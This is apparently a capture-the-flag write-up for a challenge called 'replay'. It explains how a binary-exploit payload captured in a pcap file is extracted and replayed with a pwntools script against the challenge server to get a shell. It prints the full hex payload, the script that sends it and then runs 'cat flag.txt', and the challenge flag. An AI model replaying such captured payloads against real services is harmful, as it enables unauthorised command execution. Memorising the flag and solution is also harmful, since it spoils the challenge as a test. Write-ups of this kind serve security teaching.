

## replay

### Challenge Description

Somebody pwned my app! Luckily I managed to capture the network traffic of their exploit. Oh by the way, the same app is also running on `misc.chall.pwnoh.io` on port `13371`. Can you pwn it for me?  
`replay.pcap`

### Writeup

We are given a `pcap` file and a server address. This file contains the packets exchanged between a client and the given server and the client could pwn this server. When we connect to the server, a message is printed (`HELLO HOW ARE YOU DOING TODAY`). Then it waits for input.   
Now let's look at the `replay.pcap` file. In the 6th packet, some data has been sent to the server from the client. The 7th packet is just a response from the server. In the 8th packet, we see that the client has sent `id` to the server and the server has answered! If we explore further, we see that in the 12th packet the client has sent `ls -la` and in the 13th packet, we have the result of the sent command. There is a `flag.txt` file.   
So we can see that using data sent to the server in the 6th packet, we can pwn the server and send any command and see the result of the command. We just need to send that data to the server and then just send `cat flag.txt`.  
In order to get the data part of the packet, right-click on the data part, select `Copy`, `as Escaped String`. This gives you some strings. Concat them and use them as the payload.    
   
Here is the code:   
```python
import pwn
from pwn import *

conn = remote('misc.chall.pwnoh.io', 13371)

payload = "\x61\x61\x61\x61\x62\x61\x61\x61\x63\x61\x61\x61\x64\x61" \
"\x61\x61\x65\x61\x61\x61\x66\x61\x61\x61\x67\x61\x61\x61\x68\x61" \
"\x61\x61\x69\x61\x61\x61\x6a\x61\x61\x61\x6b\x61\x61\x61\x6c\x61" \
"\x61\x61\x6d\x61\x61\x61\x6e\x61\x61\x61\x6f\x61\x61\x61\x70\x61" \
"\x61\x61\x71\x61\x61\x61\x72\x61\x61\x61\x73\x61\x61\x61\x74\x61" \
"\x61\x61\x75\x61\x61\x61\x76\x61\x61\x61\x77\x61\x61\x61\x78\x61" \
"\x61\x61\x79\x61\x61\x61\x7a\x61\x61\x62\x62\x61\x61\x62\x63\x61" \
"\x61\x62\x64\x61\x61\x62\x65\x61\x61\x62\x66\x61\x61\x62\x67\x61" \
"\x61\x62\x68\x61\x61\x62\x69\x61\x61\x62\x55\x11\x40\x00\x00\x00" \
"\x00\x00\x0f\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x20\x40\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x3b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x33\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0a"

print(payload)
conn.send(payload)
conn.send("cat flag.txt\n")
print(conn.recvline())
```  
Here is the flag:  
```
buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}
```  